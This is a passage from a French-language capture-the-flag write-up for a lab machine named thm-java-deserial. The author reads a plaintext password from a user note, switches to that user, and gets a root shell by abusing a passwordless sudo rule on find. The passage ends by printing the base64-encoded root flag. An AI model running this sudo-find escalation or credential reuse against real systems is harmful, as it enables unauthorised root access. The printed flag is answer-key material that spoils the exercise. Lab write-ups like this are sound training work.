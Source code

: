 ##  Task 6 Find User JBoss' flag! ##

```bash
cmnatic@thm-java-deserial:/home/jboss$ cat note
cat note
Hey JBoss!

Following your email, I have tried to replicate the issues you were having with the system.

However, I don't know what commands you executed - is there any file where this history is stored that I can access?

Oh! I almost forgot... I have reset your password as requested (make sure not to tell it to anyone!)

Password: likeaboss

Kind Regards,
CMNatic
```

Dans le fichier note on a un mot de passe.  
Mot de passe est : likeaboss  

```bash
cmnatic@thm-java-deserial:/home/jboss$ su jboss
su jboss
Password: likeaboss

jboss@thm-java-deserial:~$ sudo -l
sudo -l
Matching Defaults entries for jboss on thm-java-deserial:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jboss may run the following commands on thm-java-deserial:
    (ALL) NOPASSWD: /usr/bin/find
```

On se connect en tant que jboss.  
On regarde que sudo n'a pas besoin de mot de passe pour la commande find.  

Sur [gtfobin](https://gtfobins.github.io/gtfobins/find/), il explique comment avoir un shell root avec la commande find.  

```bash
jboss@thm-java-deserial:~$ sudo find . -exec /bin/sh \; -quit
sudo find . -exec /bin/sh \; -quit

cat /root/root.txt
QkM3N0FDMDcyRUUzMEUzNzYwODA2ODY0RTIzNEM3Q0Y==
```

On a un flag mais il est encodé en base64.   
